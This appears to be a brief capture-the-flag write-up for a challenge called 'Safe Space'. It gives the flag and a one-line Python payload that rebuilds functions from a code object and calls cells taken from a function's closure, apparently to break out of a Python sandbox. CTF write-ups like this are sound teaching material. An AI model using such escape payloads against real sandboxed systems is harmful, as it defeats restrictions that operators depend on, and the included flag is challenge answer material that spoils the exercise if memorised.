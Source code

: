 ## Safe Space
flag: dctf{y0ur_dr4g0n_r4ce_rep_d3cre4s3d_but_Dr4gonSecSI_r3p_1ncr34sed}

### Solution
1. final solution: `type(lambda: 0)((lambda x: lambda: x)(0).__code__, {}, None, None, (explore.__closure__[1],))()();type(lambda: 0)((lambda x: lambda: x)(0).__code__, {}, None, None, (explore.__closure__[2],))()();type(lambda: 0)((lambda x: lambda: x)(0).__code__, {}, None, None, (explore.__closure__[0],))()()`